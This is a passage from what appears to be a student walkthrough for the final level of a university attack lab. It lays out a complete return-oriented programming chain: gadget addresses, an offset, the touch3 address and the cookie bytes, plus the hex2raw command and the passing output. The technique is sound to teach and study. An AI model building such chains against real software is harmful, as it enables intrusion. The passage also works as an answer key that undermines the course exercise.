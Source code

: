 `4027b3 + 1 = 4027b4`


#### step10

touch3 address (from phase3)

`c6 26 40 00 00 00 00 00`


#### step11

cookie string (from phase3)

`32 61 33 39 65 66 62 64`


### remember that offset? yeah let's do that now

so, for the offset, since we have now assembled all of the instructions together, we can count how many steps there are including the offset. I have 6 lines of 8 bytes which means that I'll need an offset of 48 written like `48 00 00 00 00 00 00 00`.


#### the txt document

phew, that was a lot of steps. if you've followed along so far, this is what your .txt file should look like

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* buffer */
9f 28 40 00 00 00 00 00 /* step1: movq %rsp, %rax */
b4 27 40 00 00 00 00 00 /* step2: movq %rax, %rdi */
c0 27 40 00 00 00 00 00 /* step3: popq %rax */
48 00 00 00 00 00 00 00 /* step4: offset */
fe 28 40 00 00 00 00 00 /* step5: movl %eax, %ecx */
5d 28 40 00 00 00 00 00 /* step6: movl %ecx, %edx */
09 29 40 00 00 00 00 00 /* step7: movl %edx, %esi */
d2 27 40 00 00 00 00 00 /* step8: lea (%rdi,%rsi,1), %eax (add_xy) */
b4 27 40 00 00 00 00 00 /* step2: movq %rax, %rdi */
c6 26 40 00 00 00 00 00 /* step10: touch3 address (from phase3) */
32 61 33 39 65 66 62 64 /* step11: cookie string */
```


finally, this can all be run using

`cat rtarget.l3.txt | ./hex2raw | ./rtarget`


the final output should look something like

```
Cookie: 0x2a39efbd
Type string:Touch3!: You called touch3("2a39efbd")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```